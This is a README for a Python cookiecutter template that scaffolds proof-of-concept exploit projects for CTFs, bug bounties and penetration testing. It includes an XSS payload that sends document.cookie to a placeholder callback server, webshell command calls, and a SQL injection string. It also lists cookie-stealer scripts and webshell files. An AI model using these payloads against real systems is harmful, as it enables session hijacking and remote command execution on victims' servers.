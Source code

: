 # Cookiecutter POC Template

A minimal Python cookiecutter template for quickly creating Proof of Concept (POC) exploits and security tools. Built for speed and simplicity - no unnecessary complexity.

## Features

- **Minimal structure** - Just what you need for POCs
- **Built-in HTTP server** - Log callbacks and serve payloads
- **Utility modules** - Common encoding, timing, process execution helpers
- **Ready-to-use shells** - Command execution webshells for multiple platforms
- **XSS payloads** - Pre-built cookie stealers and data exfiltration
- **Simple CLI** - Argparse-based, no external dependencies
- **Colored output** - Clean status messages with colorama
- **KISS principle** - Keep It Simple, Stupid

## Installation

### Prerequisites

- Python 3.14+
- [uv](https://github.com/astral-sh/uv) (recommended) or pip

### Using the Template

```bash
# With uv (recommended)
uvx cookiecutter https://github.com/kwkeefer/cookiecutter-poc-uv

# Or with pip
pip install cookiecutter
cookiecutter https://github.com/kwkeefer/cookiecutter-poc-uv

# From local clone
cookiecutter /path/to/cookiecutter-poc-uv
```

You'll be prompted for:
- `project_name`: Name of your POC (e.g., "CVE-2024-1234 POC")
- `target_url`: Default target URL

## Generated Project Structure

```
your-poc/
├── src/poc/              # Your exploit code
│   ├── exploit.py        # Main exploit logic
│   ├── cli.py            # CLI interface
│   └── utils/            # Helper utilities
│       ├── encoding.py   # Base64, URL, hex encoding/decoding
│       ├── timing.py     # Timestamp generation and timing utilities
│       ├── process.py    # Execute binaries and commands
│       └── output.py     # Colored console output
├── payloads/             # Payloads to serve
│   ├── xss/              # XSS payloads and examples
│   │   ├── examples.txt  # Copy-paste XSS payloads
│   │   ├── steal-cookie.js
│   │   └── steal-all.js
│   └── shells/           # Webshells
│       ├── cmd.jsp       # JSP command shell
│       ├── cmd.aspx      # ASPX command shell
│       └── cmd.php       # PHP command shell
├── servers/              # HTTP server
│   └── server.py         # Log collector & file server
├── logs/                 # Server logs (*.ndjson)
├── pyproject.toml        # Dependencies
└── Makefile              # Setup commands
```

## Quick Start

After generating your project:

### Setup with uv (Recommended)

```bash
cd your-poc
make dev                          # Install dependencies
uv run your-poc --help           # Show help
uv run your-poc --server         # Start callback server (port 8000)
uv run your-poc -t http://target # Run exploit
```

### Setup with pip/venv

```bash
cd your-poc
python -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate
pip install -e .
your-poc --help
```

## Included Utilities

### Encoding (`utils/encoding.py`)
```python
from poc.utils.encoding import base64_encode, url_encode, hex_encode

payload = base64_encode("admin' OR '1'='1")
escaped = url_encode("<script>alert(1)</script>")
```

### Timing (`utils/timing.py`)
```python
from poc.utils.timing import time_ms, epoch_range, identify_timestamp

# Get current timestamp in milliseconds
ts = time_ms()

# Generate timestamps for brute forcing
timestamps = epoch_range("2024-01-01 00:00:00", "2024-01-01 01:00:00")

# Identify unknown timestamp format
info = identify_timestamp("1735689600000")
print(info['type'])  # "epoch_milliseconds"
```

### Process Execution (`utils/process.py`)
```python
from poc.utils.process import run

# Run command
stdout, stderr, code = run("./exploit target.com")

# Send input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

### Colored Output (`utils/output.py`)
```python
from poc.utils.output import out

out.success("Target is vulnerable!")
out.error("Connection failed")
out.info("Starting exploit")
out.warning("This might take a while")
```

## Usage Guide

### 1. Write Your Exploit

Edit `src/poc/exploit.py`:

```python
from poc.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Checking target...")
    response = requests.get(f"{target}/vulnerable", verify=False)

    if "success" in response.text:
        out.success("Exploited successfully!")
```

### 2. Start Callback Server

```bash
# Start server to log callbacks
uv run your-poc --server

# Or run directly
uv run python servers/server.py -p 8080
```

The server:
- Serves files from `payloads/` directory
- Logs ALL requests to `logs/server.ndjson`
- Supports CORS for XSS testing

### 3. Use Included Payloads

XSS payloads in `payloads/xss/examples.txt`:
```html
<img src=x onerror="fetch('http://YOUR-SERVER:8000/xss?c='+btoa(document.cookie))">
```

Webshells work consistently across platforms:
```python
# All shells use same interface
requests.get("http://target/cmd.jsp?cmd=whoami")
requests.get("http://target/cmd.aspx?cmd=whoami")
requests.get("http://target/cmd.php?cmd=whoami")
```

### 4. Check Logs

```bash
# Watch logs in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "blind" logs/server.ndjson | jq .
```

## Philosophy

This template follows the KISS principle:
- One file for your exploit
- One server that does everything
- Minimal dependencies
- No complex abstractions
- Fast iteration over perfection

Perfect for:
- CTF challenges
- Bug bounty POCs
- Security research
- Quick vulnerability demos
- Penetration testing

## License

MIT
